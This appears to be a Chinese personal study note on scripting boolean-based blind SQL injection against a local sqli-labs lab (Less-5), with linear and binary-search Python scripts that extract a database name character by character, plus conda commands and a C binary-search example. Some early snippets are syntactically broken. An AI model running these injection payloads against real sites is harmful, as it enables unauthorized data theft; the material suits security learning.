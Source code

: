 ### First thing first of manuscripts

#### 1.miniconda基本指令

conda list #查看已经安装的包

conda info -e#查看已经存在的虚拟环境

conda create --name (name) python=(python_version)#创建一个某版本python的虚拟环境

cmd输入conda clean -i #清除镜像索引

conda list -n env_name\# 列举一个指定环境下的所有包

activate env_name \# 激活某个环境

conda deactivate # 关闭某个环境

pip install (pkg_name)#下载包

#### 2.脚本初步

##### 1.非二分法爆库名：

先放一些零碎的语法：

```python
import requests

u=""

page=requests.get(url=u/...=...)#定位页面,get的位置由http请求头决定

headers={'User-Agent'='...'}

data={'id'='1'}

print(page.text)#查看返回源码

print(page.status_code)#查看状态码

//////

def main():#声明函数

for i in range(8)

for j in range(32,127)

u=f"   {i+1}={j}"

page=requests.get(url=u/...=...)

print(page.text)

if"You are in" in page.text

print(chr(j),end=" ")

#chr（） 把ascii转换为字符

if  --name-- =="--main--"#调用函数

main()
```

想到远古时期（高中）的时候见过一个叫format的函数，应该可以用在这里。

###### Format用法

1.通过自动寻找位置来填充字符串：

```python
print('he1lo {0} i am {1}'.format('Kevin','Tom'))
```

事实上{}内啥都不填也可以，python会将{}自动识别为str。

2.通过key来填充：

```python
print('hello {name1}  i am {name2}'.format(name1='Kevin',name2='Tom'))      
```

键值对对应。

还有一些其它用法现在大概率用不到：参考文档#https://blog.csdn.net/sinat_38682860/article/details/88749012 



通过format函数自己搞了个脚本出来：期间遇到了很多问题

1.例如'注入符最好通过url编码写进代码中，不然可能和定义字符串的引号发生冲突。

url编码表：https://www.w3school.com.cn/tags/html_ref_urlencode.asp

2.一定不能忘了语句构造里的注释符（别问我为什么要提这个）

3.Format函数必须且只能用于字符串，在写语句的时候可以通过format/str包含的方式强制转换变量类型

4.可以在一些地方插入print用来在脚本出现bug的时候取消注释来看print是否能回显，进而确定语法错误的位置（不知道为什么这类脚本似乎不能再pycharm上成功调试）

上代码：

```python
import requests

def sql_bine():
    print("正在盲注数据库名称：")
    for i in range(1, 9):
        for ascii_i in range(29, 128):
            target = 'http://127.0.0.1/Less-5/?id=1%27'
            payload = "and ascii(substr(database(),{},1))={}--+".format(str(i), ascii_i)
            target = target+payload
            req = requests.get(url=target)
            #print(req.text)
            if"You are" in req.text:
                print("第{}个字母为:{}".format(str(i), chr(ascii_i)))

if __name__ == '__main__':
    sql_bine()
```

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151203151.png)

#### 3.二分法爆库名

先回顾一下二分法的实现过程：(C语言的，这下牛头人了)

```python
#define M 10
#include <stdio.h>

int main(){
    int i,n,max,min,mid,temp,a[M];
    printf("Input the ten numbers you need:\n");
    for(i=0;i<10;i++)
    {
        scanf("%d",&a[i]);
    }
    min=0;
    max=M-1;
    temp=0;
    printf("Input the number you need to search:");
    scanf("%d",&n);
    while(min<=max)
    {
        mid=(min+max)/2;
        if(n==a[mid])
        {
            temp = 1;
            break;
        }
        else if(n>a[mid])
        {
            min=mid+1;
        }
        else
        {
            max=mid-1;
        }
    }
        if(temp==1)
        {
            printf("The index of %d is %d",n,mid);
        }
        else
        {
            printf("%d isn't concluded",n);
        }

}
```

（其实相比于python脚本里用的二分法，C数组的二分法还更加困难一些）

原理：定义一个最大值，最小值，中间值。令中间值等于最大值最小值之和的一半；比较大小之后对应修改最大值最小值（缩小区间）并不断循环。

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151203152.png)

第一次编出来的程序不知道为啥多了个@出来，就增加了一个mid的约束条件（让mid大于字母所在范围的时候直接break）

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151203153.png)

源代码：

```python
import requests

def sql_bine():
    for i in range(1, 10):
        min=65
        max=122
        mid=(min+max)//2
        while min<max:
            target = 'http://127.0.0.1/Less-5/?id=1%27'
            payload = "and ascii(substr(database(),{},1))<{}--+".format(str(i), mid)
            target = target + payload
            req = requests.get(url=target)
            if "You are in" in req.text:
                max = mid
            else:
                min = mid + 1
            mid = (min + max) // 2
        if mid<=65 or mid>=124:
            break
        print(chr(mid-1))

if __name__ == '__main__':
    sql_bine()

```

